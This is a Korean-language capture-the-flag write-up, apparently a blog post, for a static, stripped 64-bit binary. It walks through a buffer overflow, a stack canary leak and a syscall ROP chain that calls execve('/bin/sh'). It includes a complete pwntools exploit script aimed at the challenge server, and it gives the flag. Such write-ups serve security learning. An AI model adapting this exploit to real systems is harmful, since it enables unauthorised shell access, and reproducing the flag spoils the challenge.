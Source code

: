 ```yaml
---
layout: post
title: 64bit srop write-up
---
```


64비트 srop 문제

1. Binary

----------

![](https://lh3.googleusercontent.com/30jp43G1peSoaTKeRUwwDruSbj4XJPeXdRwlgoEQYvEM8t74hABaLQ7Q4WDndC1Lg2-E9BQp4O8OC0vYZPgorry0nXMVJLxgD9LXecK0zHWuh7E-SAZF1bJ3JgS7Cp2NbMG6ZENg)

이 바이너리는 ELF 64bit 파일입니다. static 컴파일이 되어 있었고, strip된 파일이였습니다.

static 컴파일과 strip이 되어있어서 분석이 어려웠지만 gdb로 흐름을 쫓으며 분석하였습니다.

2. Vulnerability

----------

메뉴 2. Edit message에서 message를 입력 받는데, 여기서 buffer overflow 취약점이 발생합니다.

![](https://lh4.googleusercontent.com/H-MRa7p21Sfj16r6UWCP2MjpzUMPzuZ5oYkht_fLMQtMFxwg0Fl84wgRW0G0BgSBTk0VF5pcbMGjCTOlaScz092GBhAOOiEWKYyG9txbLmaryCIApToHZjUBafx75bNfqiUHELnd)

세번째 인자인 edx 가 400으로 세팅 되어 있습니다. 이는 1024만큼 입력을 받을 수 있게 됩니다.

![](https://lh4.googleusercontent.com/ctjVB282zddqRF4IsuXfUfHozYMTmCx0QHQ22fE7D1EQn3_GSBLaKWIipt5h3ZwodEXIYtQ3M0y06fmZqkDnxU9cPp3WcE1RpHZecuIWxuWgnma01FRyk_-spAfRt1GVaTh-n5ST)

sys_input? 함수를 보면 eax를 0으로 세팅하고 syscall 하는 것을 볼 수 있습니다. 64비트에서 sys_read는 rax가 0으로 세팅되어있으면 호출 됩니다.

![](https://lh3.googleusercontent.com/tfVHbhAUepw4VzGzcN39FcCIvczecNigw48c509WBbZ3SczgkCY2t-2AOOE1NLZUb50jI10eYezeB_OhHzjz8VtCi3K4VaWvh3_6NNC7fbR6LRjzHn7rEN3n8ImHdsI0eWJPbtyt)

입력을 받는 v8변수는 bp - 0xd0 위치에 있으며 bp - 208 위치에 있습니다. 1024만큼 입력을 받을 수 있으니 bof가 가능합니다.

하지만 bp - 0x8 위치에 canary 변수가 있는 것을 확인 할 수 있었습니다. 하지만 이는 1. show 메뉴에서 leak이 가능했습니다.

3. exploit

----------

static 컴파일과 strip 이 되어있어서 일반적인 rop는 힘들어보였습니다. 다만 이 문제에서 syscall을 이용하기 때문에 관련된 정보를 공부하였고, syscall을 이용해 rop가 가능하다는 점을 알았습니다. canary가 활성화 되어있기 때문에 canary를 먼저 leak을 먼저 해준 다음, 다시 input에서 overflow로 rop해주면 되는 문제였습니다.

canary는 널바이트 + 7byte 이렇게 구성이 되는데, 1바이트를 overflow하면 문자열의 끝을 인식 못해 뒤에 바이트까지 leak이 됩니다.

syscall rop 같은 경우는 각 syscall rax number가 정해져있는데, 먼저 bss 영역에 “/bin/sh”을 적기 위해 인자 세팅 후 read(rax == 0) syscall; ret; 가젯으로 호출한뒤 chaining을 통해 rdi에 bss를 세팅하고 rsi에 0을 세팅 한 뒤 rax에는 execve의 rax number인 59를 세팅해 call 했습니다.

밑에는 exploit.py입니다.

>exploit.py

```python
from pwn import  *

#s = process("./rich")

s = remote("null2root.org", 1797)

e = ELF("./rich")

#context.log_level = 'debug'

gadget =  0x0045e395  # syscall ; ret

prdi =  0x00400535

prsi =  0x004017b7

prax =  0x0046dcb6  # pop rax ; pop rdx ; pop rbx ; ret

s.recvuntil("> ")

s.sendline("2")

s.recvuntil(": ")

leak_payload =  "A"*201

s.send(leak_payload)

s.recvuntil("> ")

s.sendline("1")

s.recvuntil("A"*201)

canary = u64("\x00"+s.recv(7))

log.success("canary : "+ hex(canary))

s.recvuntil("> ")

s.sendline("2")

s.recvuntil(": ")

payload =  "A"*200  + p64(canary)+"AAAAAAAA"

payload += p64(prdi)

payload += p64(0)

payload += p64(prsi)

payload += p64(e.bss())

payload += p64(prax)

payload += p64(0) + p64(0xff) + p64(0)

payload += p64(gadget)

payload += p64(prdi)

payload += p64(e.bss())

payload += p64(prsi)

payload += p64(0)

payload += p64(prax)

payload += p64(59) + p64(0) + p64(0)

payload += p64(gadget)

s.send(payload)

s.recvuntil("> ")

s.sendline("3")

s.recv()

s.send("/bin/sh\x00")

s.recv()

s.interactive()
```

![](https://lh3.googleusercontent.com/XnSyaezo4a0TPR0Q8EsAOcMO94Ui6efVoquawzhGbKUvS1SuVEc6MqmOE1QSLRS1DhEpptMjvTXyumtt96KpKBl6gDB0Yluo1LiXjb2WAnh01OHVbujpDNP6nt2QjFQ3uLxBt2Kf)

FLAG : n2r{enjoying_rich_rop_with_static_binary}

 
